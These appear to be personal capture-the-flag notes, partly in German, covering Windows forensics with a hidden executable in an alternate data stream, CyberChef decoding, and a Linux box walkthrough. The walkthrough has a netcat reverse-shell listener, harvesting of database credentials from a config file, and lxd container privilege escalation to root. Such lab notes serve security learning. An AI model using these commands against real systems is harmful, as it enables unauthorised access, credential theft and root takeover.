    cat 1.txt | select-object -index 551,6991
    
    cat 2.txt | select-string -pattern "redryder"

##Day-21

Forensic

With PowerShell, we can obtain the hash of a file by running the following command: 

    Get-FileHash -Algorithm MD5 file.txt

Another tool you can use to inspect within a binary file (.exe) is Strings.exe. Strings scans the file you pass it for strings of a default length of 3 or more characters. You can use the Strings tool to peek inside this mysterious executable file. The tool is located within C:\Tools.

The command to run for the Strings tool to scan the mysterious executable: 

    c:\Tools\strings64.exe -accepteula file.exe

In the output, you should notice a command related to ADS. You know this by the end of the Powershell command -Stream.

The command to view ADS using Powershell: 

    Get-Item -Path file.exe -Stream *

There are a few lines of output when you run this command. Pay particularly close attention to Stream and Length.

The command to run to launch the hidden executable hiding within ADS: 

    wmic process call create $(Resolve-Path file.exe:streamname)

Note: You must replace file.exe with the actual name of the file which contains the ADS, and streamname is the actual name of the stream displayed in the output.

Challenge:

cd documents

cat db file hash.txt

get-filehash -algorithm md5 deebee.exe

c:\Tools\strings64.exe -accepteula deebee.exe

get-item -path deebee.exe -stream *

Stream: hidedb

wmic process call create $(Resolve-Path .\deebee.exe:hidedb)

Note: ".\" oder Pfad vor exe ist zwingen!

##Day-22

KeePass

CyberChef

Sucht mögliche decoder:

Magic

Manche encoders benötigen 2 verschiedene Methoden

##Day-23

##Day-24

nmap <IP_Target>

Netcat:

nc -lvnp 1234

Shell:

    python3 -c 'import pty;pty.spawn("/bin/bash")'
    
    export TERM=xterm
    
    Ctrl + Z
    
    stty raw -echo; fg
    
    cd /var/www/
    
    cat web.txt
    
    cd TheGrid/
    
    cd includes/
    
    cat dbauth.php
    
    $dbaddr = "localhost";
    $dbuser = "tron";
    $dbpass = "IFightForTheUsers";
    $database = "tron";
    
    mysql -utron -p
    
    IFightForTheUsers
    
Mysql:
    
        show databases;
        
        use tron
        
        show tables;
        
        select * from users;
        
        exit
    
Shell:
    
    su flynn
    
    @computer@
    
    whoami
    
    cat user.txt
    
    id
    
    lxd
    
    lxc image list
    
    lxc init Alpine strongbad -c security.privileged=true
    
    lxc config device add strongbad trogdor disk source=/ path=/mnt/root recursive=true
    
    lxc start strongbad
    
    lxc exec strongbad /bin/sh
    
    id
    
    ls
    
    cat root.txt

# Notes:

